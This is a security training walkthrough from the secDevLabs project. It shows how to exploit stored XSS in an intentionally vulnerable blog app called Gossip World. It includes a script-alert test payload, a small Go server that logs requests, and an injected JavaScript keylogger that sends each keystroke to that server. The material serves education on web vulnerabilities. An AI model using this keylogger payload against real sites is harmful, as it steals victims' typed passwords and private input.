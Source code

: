 # Attack Narrative - Gossip World Blog (XSS)

The main goal of this documentation is to describe how a malicious user could exploit a Cross-Site Scripting vulnerability intentionally installed on Gossip World Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a7/gossip-world) yet, you should check them before reading this narrative.

----

## Note: This attack narrative works best in Mozilla Firefox.

## 👀

After inspecting the application, it is possible to identify that some entries are not sanitized and can be  executed on web browser. It occurs on *search*, *comment* and *post* fields. The following images show this behavior when the text  **\<script>alert(1)\</script>** is used as an input on these fields.

Searching for a post:
   <img src="attack-1.png" align="center"/>
   <img src="attack-2.png" align="center"/>

Adding a new comment to a post:
   <img src="attack-3.png" align="center"/>
   <img src="attack-4.png" align="center"/>

Adding a new post:
   <img src="attack-5.png" align="center"/>
   <img src="attack-6.png" align="center"/>


The missing input validation allows a malicious user inserts some scripts that will be persisted in the server and can be executed on victims browsers every time they access the routes that contains these scripts.

Now we will demonstrate how to get all keyboard inputs from a user by persisting a malicious code in the server.

First, we create a simple API in golang that logs all received requests. The code is shown bellow:

   ```go
   package main

   import (
      "fmt"
      "github.com/labstack/echo"
   )

   func main() {
      e := echo.New()
      e.GET("/:k", handler)
      e.Logger.Fatal(e.Start(":1232"))
   }

   func handler(c echo.Context) error {
      fmt.Println(c.Request().RemoteAddr, c.Param("k"))
      return nil
   }
   ```

Now, we insert a new post through **/newgossip** route using the following code in text field:

```html
   <script>
   var k="";
   document.onkeypress=function(e) {
      e = e || window.event;
      k+=e.key;
      var i=new Image;
      i.src="http://localhost:1232/"+k;
   }
   </script>
```

This code implements a keylogger by capturing all keyboard inputs from user and send them to the API created before.

   <img src="attack-7.png" align="center"/>



When a victim access the post, the browser will interpret the text between the script tag as a code and will execute it secretly. This behavior is shown bellow.

In the first image, we are inserting some text in *comment* and *search* fields and the second image shows the server log containing all these inputs.


<img src="attack-8.png" align="center"/>

<img src="attack-9.png" align="center"/>
